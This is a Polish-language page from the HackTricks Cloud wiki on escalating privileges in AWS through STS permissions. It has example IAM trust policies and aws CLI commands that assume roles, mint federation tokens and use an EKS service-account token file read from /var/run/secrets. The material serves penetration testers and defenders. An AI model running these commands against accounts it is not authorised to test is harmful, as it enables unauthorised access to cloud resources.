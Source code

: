 # AWS - STS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## STS

### `sts:AssumeRole`

Każda rola jest tworzona z **polityką zaufania roli**, ta polityka wskazuje **kto może przyjąć utworzoną rolę**. Jeśli rola z **tego samego konta** mówi, że inne konto może ją przyjąć, oznacza to, że to konto będzie mogło uzyskać dostęp do roli (i potencjalnie **privesc**).

Na przykład, poniższa polityka zaufania roli wskazuje, że każdy może ją przyjąć, dlatego **każdy użytkownik będzie mógł privesc** do uprawnień związanych z tą rolą.
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Możesz udawać rolę, uruchamiając:
```bash
aws sts assume-role --role-arn $ROLE_ARN --role-session-name sessionname
```
**Potencjalny wpływ:** Privesc do roli.

{% hint style="danger" %}
Zauważ, że w tym przypadku uprawnienie `sts:AssumeRole` musi być **określone w roli do nadużycia** a nie w polityce należącej do atakującego.\
Z jednym wyjątkiem, aby **przyjąć rolę z innego konta** konto atakującego **musi również** mieć **`sts:AssumeRole`** nad rolą.
{% endhint %}

### **`sts:GetFederationToken`**

Dzięki temu uprawnieniu możliwe jest wygenerowanie poświadczeń do podszywania się pod dowolnego użytkownika:
```bash
aws sts get-federation-token --name <username>
```
To jest sposób, w jaki to uprawnienie można przyznać bezpiecznie, nie dając dostępu do podszywania się pod innych użytkowników:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "VisualEditor0",
"Effect": "Allow",
"Action": "sts:GetFederationToken",
"Resource": "arn:aws:sts::947247140022:federated-user/${aws:username}"
}
]
}
```
### `sts:AssumeRoleWithSAML`

Polityka zaufania z tą rolą przyznaje **użytkownikom uwierzytelnionym za pomocą SAML dostęp do podszywania się pod rolę.**

Przykład polityki zaufania z tym uprawnieniem to:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "OneLogin",
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::290594632123:saml-provider/OneLogin"
},
"Action": "sts:AssumeRoleWithSAML",
"Condition": {
"StringEquals": {
"SAML:aud": "https://signin.aws.amazon.com/saml"
}
}
}
]
}
```
Aby wygenerować poświadczenia do podszywania się pod rolę, ogólnie możesz użyć czegoś takiego:
```bash
aws sts  assume-role-with-saml --role-arn <value> --principal-arn <value>
```
Ale **dostawcy** mogą mieć **własne narzędzia**, aby to ułatwić, takie jak [onelogin-aws-assume-role](https://github.com/onelogin/onelogin-python-aws-assume-role):

{% code overflow="wrap" %}
```bash
onelogin-aws-assume-role --onelogin-subdomain mettle --onelogin-app-id 283740 --aws-region eu-west-1 -z 3600
```
{% endcode %}

**Potencjalny wpływ:** Privesc do roli.

### `sts:AssumeRoleWithWebIdentity`

To uprawnienie przyznaje pozwolenie na uzyskanie zestawu tymczasowych poświadczeń bezpieczeństwa dla **użytkowników, którzy zostali uwierzytelnieni w aplikacji mobilnej, aplikacji webowej, EKS...** z dostawcą tożsamości webowej. [Dowiedz się więcej tutaj.](https://docs.aws.amazon.com/STS/latest/APIReference/API_AssumeRoleWithWebIdentity.html)

Na przykład, jeśli **konto usługi EKS** powinno być w stanie **udawać rolę IAM**, będzie miało token w **`/var/run/secrets/eks.amazonaws.com/serviceaccount/token`** i może **przyjąć rolę i uzyskać poświadczenia** wykonując coś takiego:

{% code overflow="wrap" %}
```bash
aws sts assume-role-with-web-identity --role-arn arn:aws:iam::123456789098:role/<role_name> --role-session-name something --web-identity-token file:///var/run/secrets/eks.amazonaws.com/serviceaccount/token
# The role name can be found in the metadata of the configuration of the pod
```
{% endcode %}

### Nadużycie Federacji

{% content-ref url="../aws-basic-information/aws-federation-abuse.md" %}
[aws-federation-abuse.md](../aws-basic-information/aws-federation-abuse.md)
{% endcontent-ref %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
